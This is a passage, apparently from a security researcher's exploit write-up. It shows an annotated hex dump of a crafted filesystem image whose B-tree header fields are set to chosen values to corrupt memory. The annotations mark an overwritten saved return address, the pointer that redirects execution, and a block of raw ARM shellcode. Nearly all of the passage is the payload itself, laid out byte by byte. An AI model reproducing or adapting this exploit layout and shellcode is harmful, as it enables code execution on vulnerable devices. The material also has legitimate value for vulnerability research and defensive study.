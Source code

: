 And this is the memory layout after crossing the allocator's event horizon.
Big-endian multi-byte quantities are shown between [] and little-endian are
shown between {}.

                       +- start of BTree headers (controlled)
                       v
00047A50: 62 7B 74 00 (45 45 45 45  45 45 45 45  45 45 45 45
                +- BTHeaderRec::treeDepth
                |      +- BTHeaderRec::rootNode
                v      v
00047A60: 45 45[00 03][00 00 00 03] 45 45 45 45  45 45 45 45
                       +- BTHeaderRec::nodeSize
                       |            +- BTHeaderRec::totalNodes
                       v            v
00047A70: 45 45 45 45 [02 00]45 45 [00 7F FF FF] FF E4 30 9F
00047A80: E5 00 20 E0  E3 DF AC 22  83 E5 CC F7  F0 80 23 F7
00047A90: 83 E5 84 FF  F0 74 25 83  E5 77 60 26  83 F1 F0 A0
00047AA0: E3 C8 F7 F0  55 D0 F7 F0  D4 F7 F0 E0  F7 F0 E4 F7
00047AB0: F0 55 EC F7  F0 F4 F7 F0  FC F7 F0 00  FF F0 55 04
00047AC0: FF F0 08 FF  F0 0C FF F0  10 FF F0 B5  14 FF F0 18
00047AD0: FF F0 88 20  F0 F0 00 FF  A0 E3 04 00  A2 E5 80 10
00047AE0: FF 9F E5 01  00 52 E1 FA  FF F7 FF 1A  01 0F 00 0C
00047AF0: 22 C3 E5 55  30 FF F0 02  0F 00 D4 FF  F0 64 4F 00
00047B00: F5 34 FF F0  38 7F 01 20  82 E2 6C 52  FF F0 70 37
00047B10: 01 87 00 74  FF F0 78 FF  F0 F5 4C 87  00 A0 3F 01
00047B20: 20 42 E2 B0  AA FF F0 B4  8F 04 B8 FF  F0 BC FF F0
00047B30: 8F FF 2F 82  E2 B0 01 C3  E5 C0 AA C3  00 D4 C3 00
00047B40: F4 07 00 F8  07 00 1E FF  FF 2F E1 00  40 74 00 D8
00047B50: FF 43 74 00  30 45 74 00  34 00 DF 00  46 46 46 46
                       ^
 end of Catalog BTree -+- start of Extents BTree header
                +-------------------------------------------------------+
                |      +- BTHeaderRec::rootNode as big value, but gives |
                |      |  32bit 0x0 when combined with previous 2 bytes |
                |      |  and 32bit 0x5 when combined with next 2 bytes |
                |      |            +-------------------------------+   |
                |      |            |      (nodeSize+64)>>6         |   |
                v      v            v            v                  |   |
00047B60: 46 46{00 00 [00 00-05 00] 00 00}46 46 {01 01 00 00}       |   |
                       +- BTHeaderRec::nodeSize                     |   |
                       |            +- BTHeaderRec::totalNodes      |   |
                       v            v                               |   |
00047B70: 46 46 46 46 [40 00]46 46 [00 00 0F FF] 46 46 46 46        |   |
00047B80: 46 46 46 46  46 46 46 46  46 46 46 46  46 46 46 46        |   |
00047B90: 46 46 46 46  46 46 46 46  46 46 46 46  46 46 46 46        |   |
                                    +- R0 at block match -------+   |   |
                                    |   LR on stack (0x47cc4)   |   |   |
                                    v             v             |   |   |
00047BA0: 46 46{68 7B  74 00}46 46 {B1 7B 74 00}{C4 7C 74 00}   |   |   |
                ^                                               |   |   |
                +- contains aligned pointer (0x47b68) ----------|---+   |
          +- shellcode -----------------------------------------+       |
          v                                                     |       |
00047BB0: DF F8 50 D0  ED F7 3A F8  13 4C 14 48  21 46 14 4A    |       |
00047BC0: EC F7 0A EB  4F F4 10 51  A4 F8 54 1E  11 48 4F F0    |       |
00047BD0: 00 41 21 50  10 48 11 49  21 50 D9 F7  43 FA 00 21    |       |
00047BE0: 41 64 0F 48  FC 21 0F 4A  E0 23 05 46  DD F7 F8 FD    |       |
00047BF0: 0D 48 02 E0 <46 C4 7C 74  00>46 80 47  DA F7 F6 FD    |       |
